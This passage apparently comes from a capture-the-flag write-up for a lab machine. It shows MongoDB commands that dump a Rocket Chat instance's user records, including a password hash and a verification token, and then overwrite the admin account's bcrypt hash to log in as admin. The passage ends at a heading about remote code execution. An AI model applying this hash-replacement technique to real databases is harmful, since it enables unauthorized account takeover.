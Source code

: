 ```
usersSessions
view_livechat_queue_status
```

We can view the users present on the Rocket Chat instance.&#x20;

{% code overflow="wrap" %}
```
rs0:PRIMARY> db.users.find()
{ "_id" : "rocket.cat", "createdAt" : ISODate("2021-08-10T19:44:00.224Z"), "avatarOrigin" : "local", "name" : "Rocket.Cat", "username" : "rocket.cat", "status" : "online", "statusDefault" : "online", "utcOffset" : 0, "active" : true, "type" : "bot", "_updatedAt" : ISODate("2021-08-10T19:44:00.615Z"), "roles" : [ "bot" ] }
{ "_id" : "ZLMid6a4h5YEosPQi", "createdAt" : ISODate("2021-08-10T19:49:48.673Z"), "services" : { "password" : { "bcrypt" : "$2b$10$jzSWpBq.eJ/yn/Pdq6ilB.UO/kXHB1O2A.b2yooGebUbh69NIUu5y" }, "email" : { "verificationTokens" : [ { "token" : "dgATW2cAcF3adLfJA86ppQXrn1vt6omBarI8VrGMI6w", "address" : "saul@talkative.htb", "when" : ISODate("2021-08-10T19:49:48.738Z") } ] }, "resume" : { "loginTokens" : [ ] } }, "emails" : [ { "address" : "saul@talkative.htb", "verified" : false } ], "type" : "user", "status" : "offline", "active" : true, "_updatedAt" : ISODate("2023-05-01T12:23:09.128Z"), "roles" : [ "admin" ], "name" : "Saul Goodman", "lastLogin" : ISODate("2022-03-15T17:06:56.543Z"), "statusConnection" : "offline", "username" : "admin", "utcOffset" : 0 }
```
{% endcode %}

We can sort of make out how there's an `admin` user that has a hashed Bcrypt password. What we can do is replace this with a hash of our own choosing and then login as the admin of Rocket Chat.&#x20;

{% code overflow="wrap" %}
```
rs0:PRIMARY> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$9bo11GKNB/W2jAxW3a.L4OvmplKUjOfaOKaLpKF6KTikZMidkCkbu"}}}});
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })

rs0:PRIMARY> db.users.find()
{ "_id" : "rocket.cat", "createdAt" : ISODate("2021-08-10T19:44:00.224Z"), "avatarOrigin" : "local", "name" : "Rocket.Cat", "username" : "rocket.cat", "status" : "online", "statusDefault" : "online", "utcOffset" : 0, "active" : true, "type" : "bot", "_updatedAt" : ISODate("2021-08-10T19:44:00.615Z"), "roles" : [ "bot" ] }
{ "_id" : "ZLMid6a4h5YEosPQi", "createdAt" : ISODate("2021-08-10T19:49:48.673Z"), "services" : { "password" : { "bcrypt" : "$2a$10$9bo11GKNB/W2jAxW3a.L4OvmplKUjOfaOKaLpKF6KTikZMidkCkbu" } }, "emails" : [ { "address" : "saul@talkative.htb", "verified" : false } ], "type" : "user", "status" : "offline", "active" : true, "_updatedAt" : ISODate("2023-05-01T12:23:09.128Z"), "roles" : [ "admin" ], "name" : "Saul Goodman", "lastLogin" : ISODate("2022-03-15T17:06:56.543Z"), "statusConnection" : "offline", "username" : "admin", "utcOffset" : 0 }
```
{% endcode %}

In this case, I just used a simple password of '12345'. Then we can login to Rocket Chat.

### Rocket Chat RCE

The Rocket Chat dashboard had nothong of interest:
